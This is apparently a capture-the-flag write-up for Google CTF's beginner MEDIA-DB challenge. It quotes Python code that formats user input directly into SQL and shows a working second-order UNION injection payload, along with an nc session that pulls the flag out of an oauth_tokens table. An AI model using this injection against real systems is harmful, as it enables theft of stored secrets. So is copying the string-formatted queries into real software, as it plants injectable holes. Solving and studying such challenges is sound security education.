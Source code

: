 ### MEDIA-DB
[Challenge Link](https://capturetheflag.withgoogle.com/?#beginners/misc-media-db)

#### Static Analysis
- `media-db.py` : We need to get data from `oauth_token` column in `oauth_tokens` table

		c.execute("CREATE TABLE oauth_tokens (oauth_token text)")
		c.execute("INSERT INTO oauth_tokens VALUES ('{}')".format(flag))

- input sanitization is different in 1) from 2),3) and it os possible to use `'` when we add a song

		# 1) add song
		artist = raw_input().replace('"', "")
		song = raw_input().replace('"', "")
		c.execute("""INSERT INTO media VALUES ("{}", "{}")""".format(artist, song))
		
		# 2) play artist
		artist = raw_input().replace("'", "")
		print_playlist("SELECT artist, song FROM media WHERE artist = '{}'".format(artist))
		
		# 3) play song
		song = raw_input().replace("'", "")
		print_playlist("SELECT artist, song FROM media WHERE song = '{}'".format(song))
		
		# 4) shuffle artist
		artist = random.choice(list(c.execute("SELECT DISTINCT artist FROM media")))[0]
		print_playlist("SELECT artist, song FROM media WHERE artist = '{}'".format(artist))
		
- Well, let's try a	sqli trick	

		>>> artist = raw_input().replace('"', "")
		' union select oauth_token,oauth_token from oauth_tokens;--'
		>>> print "SELECT artist, song FROM media WHERE artist = '{}'".format(artist)
		SELECT artist, song FROM media WHERE artist = '' union select oauth_token,oauth_token from oauth_tokens;--''

- Got Flag
		
		$ nc media-db.ctfcompetition.com 1337
		=== Media DB ===
		1) add song
		2) play artist
		3) play song
		4) shuffle artist
		5) exit
		> 1
		artist name?
		' union select oauth_token,oauth_token from oauth_tokens;--'
		song name?
		does it really matter?

		1) add song
		2) play artist
		3) play song
		4) shuffle artist
		5) exit
		> 4
		choosing songs from random artist: ' union select oauth_token,oauth_token from oauth_tokens;--'

		== new playlist ==
		1: "CTF{fridge_cast_oauth_token_cahn4Quo}
		" by "CTF{fridge_cast_oauth_token_cahn4Quo}
		"

